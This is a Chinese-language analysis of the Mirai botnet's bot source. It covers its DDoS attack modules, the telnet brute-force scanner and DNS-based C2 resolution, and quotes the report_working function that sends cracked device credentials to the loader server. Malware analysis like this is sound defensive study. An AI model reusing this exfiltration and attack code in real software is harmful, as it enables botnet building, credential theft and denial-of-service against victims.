bot目录
一般捕获的botnet样本基本都相当于bot目录，这个目录主要包含了ddos攻击、扫描爆破、dns解析等功能。

util模块
手动实现了大量的库函数，来提高程序运行的稳定性。
rand模块
这个模块无关紧要，但是正是这种无关紧要的函数，却被大量的botnet家族复用，在分析的时候出现的频率很高，随机的思路也基本一样，算法也大差不差。尤其是这个函数

ddos攻击
内置了几种攻击方式，通过attack.c进行统一调度。

attack.c

攻击方式按照协议进行分类，每种协议又包含了不同的攻击方式。
attack_udp.c

udp攻击主要实现了：
- vse攻击，针对游戏服务器
- udp stander攻击
- udp 自定义攻击
三种攻击方式。
attack_tcp.c
实现了syn攻击、ack攻击还有stomp攻击三种方式。

attack_gre.c
gre攻击，利用GRE（通用路由封装）协议中的数据包发送大量无效数据，以破坏网络服务或使网络瘫痪。比较出名的事件就是：
Mirai僵尸网络利用GRE泛洪在2016年攻击了新闻记者Brian Krebs的博客。

attack_app.c
主要是针对http的洪水攻击

attack_app_cfnull
与GET / POST泛洪类似，它旨在发送大量垃圾，导致其消耗目标的服务器资源。
scanner扫描
这个模块他写了将将1000行代码，真下功夫。下面是该模块的构成函数
// 将接收到的空字符替换为'A'
int recv_strip_null(int sock, void *buf, int len, int flags)
// 检查剩余缓冲区长度是否足够,从而避免指针越界
static BOOL can_consume(struct scanner_connection *conn, uint8_t *ptr, int amount)
// 解密函数
static char *deobf(char *str, int *len)
// 将扫描成功的结果上报
static void report_working(ipv4_t daddr, uint16_t dport, struct scanner_auth *auth)
// 随机返回一条auth_table中的记录
static struct scanner_auth *random_auth_entry(void)
// 向auth_table中添加字典数据
static void add_auth_entry(char *enc_user, char *enc_pass, uint16_t weight)
// 检查接收缓冲区,寻找登录提示结束符位置
static int consume_user_prompt(struct scanner_connection *conn)
static int consume_pass_prompt(struct scanner_connection *conn)
static int consume_resp_prompt(struct scanner_connection *conn)
// 从内存中，查找命令的末尾位置
static int consume_any_prompt(struct scanner_connection *conn)
// 只要客户机或服务器要发送命令序列而不是数据流，它就在数据流中插入一个特殊的保留字符，该保留字符叫做“解释为命令”（IAC：0xff ，Interpret As Command) 字符。
static int consume_iacs(struct scanner_connection *conn)
// 随机生成一个符合要求的公网ip
static ipv4_t get_random_ip(void)
// 向扫描到的存活的ip、端口发起链接
static void setup_connection(struct scanner_connection *conn)
// 扫描进程pid为全局变量，这里直接kill
void scanner_kill(void)
// 主要的扫描和爆破功能模块
void scanner_init(void)
// 将接收到的空字符替换为'A'
int recv_strip_null(int sock, void *buf, int len, int flags)
scanner_init
这个函数实现了扫描功能的初始化和扫描功能。使用了读取socket连接的方式来获取本地ip。这个模块被botnet后代子孙广泛使用。
ipv4_t util_local_addr(void)
{
int fd;
struct sockaddr_in addr;
socklen_t addr_len = sizeof (addr);
errno = 0;
if ((fd = socket(AF_INET, SOCK_DGRAM, 0)) == -1)
{
#ifdef DEBUG
printf("[util] Failed to call socket(), errno = %d\n", errno);
#endif
return 0;
}
addr.sin_family = AF_INET;
addr.sin_addr.s_addr = INET_ADDR(8,8,8,8);
addr.sin_port = htons(53);
// 仅仅作为链接到8888，方便后续利用getsockname函数获取本地局域网ip
connect(fd, (struct sockaddr *)&addr, sizeof (struct sockaddr_in));
//
getsockname(fd, (struct sockaddr *)&addr, &addr_len);
close(fd);
return addr.sin_addr.s_addr;
}
每次可以进行160个线程的扫描，采用了异步无状态扫描方式，提高扫描效率。

后面就记录扫描中得到的有意义的目标进行保存，方便后续爆破。扫描和爆破是分开的，先扫描得到有价值目标再进行爆破。

mirai中的扫描目标是随机生成的，去掉了几个没有攻击意义的，后代儿孙中基本都是下发扫描区段来扫描。

扫描爆破完事之后，决定权不在bot手里，要将数据上报给loader服务器进行定夺。
// 将扫描成功的结果上报
static void report_working(ipv4_t daddr, uint16_t dport, struct scanner_auth *auth)
{
struct sockaddr_in addr;
int pid = fork(), fd;
struct resolv_entries *entries = NULL;
if (pid > 0 || pid == -1)
return;
if ((fd = socket(AF_INET, SOCK_STREAM, 0)) == -1)
{
#ifdef DEBUG
printf("[report] Failed to call socket()\n");
#endif
exit(0);
}
table_unlock_val(TABLE_SCAN_CB_DOMAIN);
table_unlock_val(TABLE_SCAN_CB_PORT);
entries = resolv_lookup(table_retrieve_val(TABLE_SCAN_CB_DOMAIN, NULL));
if (entries == NULL)
{
#ifdef DEBUG
printf("[report] Failed to resolve report address\n");
#endif
return;
}
addr.sin_family = AF_INET;
addr.sin_addr.s_addr = entries->addrs[rand_next() % entries->addrs_len];
addr.sin_port = *((port_t *)table_retrieve_val(TABLE_SCAN_CB_PORT, NULL));
resolv_entries_free(entries);
table_lock_val(TABLE_SCAN_CB_DOMAIN);
table_lock_val(TABLE_SCAN_CB_PORT);
if (connect(fd, (struct sockaddr *)&addr, sizeof (struct sockaddr_in)) == -1)
{
#ifdef DEBUG
printf("[report] Failed to connect to scanner callback!\n");
#endif
close(fd);
exit(0);
}
uint8_t zero = 0;
send(fd, &zero, sizeof (uint8_t), MSG_NOSIGNAL);
send(fd, &daddr, sizeof (ipv4_t), MSG_NOSIGNAL);
send(fd, &dport, sizeof (uint16_t), MSG_NOSIGNAL);
send(fd, &(auth->username_len), sizeof (uint8_t), MSG_NOSIGNAL);
send(fd, auth->username, auth->username_len, MSG_NOSIGNAL);
send(fd, &(auth->password_len), sizeof (uint8_t), MSG_NOSIGNAL);
send(fd, auth->password, auth->password_len, MSG_NOSIGNAL);
#ifdef DEBUG
printf("[report] Send scan result to loader\n");
#endif
close(fd);
exit(0);
}
dns解析 resolv.c
mirai的C2基本是域名，在回传之前先通过自己写的dns解析服务利用8.8.8.8进行解析，然后再发回数据包。

扫描爆破用的密码本是硬编码的，但是被加密了，用之前解密，用完后加密，降低曝光率。不少的家族都是用了差不多的方式。
